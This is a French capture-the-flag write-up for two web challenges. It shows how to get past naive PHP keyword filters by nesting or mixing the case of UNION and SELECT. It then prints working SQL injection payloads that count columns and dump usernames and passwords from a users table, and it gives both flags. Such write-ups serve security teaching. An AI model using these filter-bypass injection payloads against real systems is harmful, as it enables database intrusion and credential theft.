




# Gogol 1

Ici on a un premier coup de main fourni par l'énoncé

> Tu peux voir le code source de l'application en ajoutant le paramètre "GetItNude" dans ta requête GET.

On récupère donc le code PHP du backend qui gère les recherches.  
Et en PHP, quand on voit une requête non-préparée qui implémente des filtres fait main, en général ça pue l'injection SQL.

On remarque que le filtre consiste à remplacer les mots clés "union" et "select" par.. rien.

```php
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
} 
```

Et comme le filtre n'est appliqué qu'une fois, on peut s'amuser à écrire des choses comme ça `uunionnion` qui, une fois 
passé dans notre "filtre", deviendra un "union" parfaitement valide syntaxiquement parlant. On peut faire le test :

```php
$haystack = "uunionnion";
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $haystack = preg_replace('/' . $banned . '/i', '', $haystack);
}

echo $haystack;
```

Evidemment cela fonctionne aussi pour select (ou devrais-je dire `sselectelect`).

Reste maintenant à échapper notre LIKE dans la requête. Le plus simple est d'utiliser un `' and 0` (ou  un `' and NULL` ou un  `' and 1` ou ... bref vous avez l'idée).
On se retrouve donc avec une requête qui ressemble plus ou moins à ça :

```
' and 0 UUNIONNION SSELECTELECT 1#
```

Reste à déterminer le nombre de colonnes de façon itérative :

```
' and 0 UUNIONNION SSELECTELECT 1#
' and 0 UUNIONNION SSELECTELECT 1,2#
' and 0 UUNIONNION SSELECTELECT 1,2,3# <-- les numéros de colonnes s'affichent 
```

Maintenant qu'on a le nombre de colonne, reste plus qu'à chercher un peu dans la bdd :

```
' and 0 UUNIONNION SSELECTELECT version(),user(),database()#
```




On pourrait facilement retrouver le nom des tables mais le plus simple reste d'essayer avec des nom de tables / champs classiques :


```
' and 0 UUNIONNION SSELECTELECT username,password,3 from users#
```



Et le challenge est validé :)

`INEAT{azerty-is-a-g00d-p4ssw0rd}`

# Gogol 2

Le second challenge propose une version "patchée" du code.  
Bien évidemment, notre injection ne fonctionne plus, et nous n'avons cette fois plus accès au code source.

On peut donc supposer qu'il s'agit de la même requête SQL en PHP et qu'il faudra également trouver un moyen de contourner les filtres mis en place par le webmaster (en aveugle cette fois, donc).

On remarque que lorsqu'on essaye d'effectuer une injection basique, on obtient un message d'erreur `Hacker detected`. En réalité, une simple requête contenant les mots clés "union" ou "select" provoque l'affichage de ce message. On peut donc supposer que le code derrière ressemble maintenant à ça :

```
$filter = array('union', 'select', 'UNION', 'SELECT');

// Remove all banned characters
foreach ($filter as $banned) {
    if (strpos($banned, $_GET['q']) !== false) {
        echo "Hacker detected";
        die();
    }
} 
```
 Or il s'avère que, contrairement à `preg_replace()`, la fonction `strpos()` est case sensitive - contrairement à notre requête SQL qui se fout royalement des minuscules/majuscules. On peut donc contourner le filtre relativement simplement :

```
' and 0 UnioN SelECt 1,2,3#
```


Il ne reste plus qu'à modifier légèrement notre requête précédente.

```
' and 0 UnioN SelECt username,password,3 from users#
```



`INEAT{l0w3rC4s3_S3ns171v3}`
